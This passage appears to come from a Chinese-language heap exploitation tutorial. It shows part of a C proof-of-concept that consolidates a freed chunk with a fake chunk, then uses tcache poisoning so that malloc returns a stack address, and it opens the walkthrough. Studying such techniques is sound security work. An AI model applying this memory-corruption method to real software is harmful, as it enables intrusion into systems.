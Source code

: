 ```bash
        free(x[i]);
    }

    printf("Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set\n");
    free(c);
    printf("Our fake chunk size is now %#lx (c.size + fake_prev_size)\n", a[1]);

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    intptr_t *d = malloc(0x158);
    printf("Next malloc(0x158) is at %p\n", d);

    // tcache poisoning
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
           "We have to create and free one more chunk for padding before fd pointer hijacking.\n");
    uint8_t *pad = malloc(0x28);
    free(pad);

    printf("\nNow we free chunk 'b' to launch a tcache poisoning attack\n");
    free(b);
    printf("Now the tcache list has [ %p -> %p ].\n", b, pad);

    printf("We overwrite b's fwd pointer using chunk 'd'\n");
    d[0x30 / 8] = (long) stack_var;

    // take target out
    printf("Now we can cash out the target chunk.\n");
    malloc(0x28);
    intptr_t *e = malloc(0x28);
    printf("\nThe new chunk is at %p\n", e);

    // sanity check
    assert(e == stack_var);
    printf("Got control on target/stack!\n\n");
}
```

首先定义了一个栈地址，然后申请了一个 0x38 大小的堆块 `chunk a`

[![](assets/1702521085-514495706288b25b5be70bcb97265b42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230818-1f4146e6-9380-1.png)

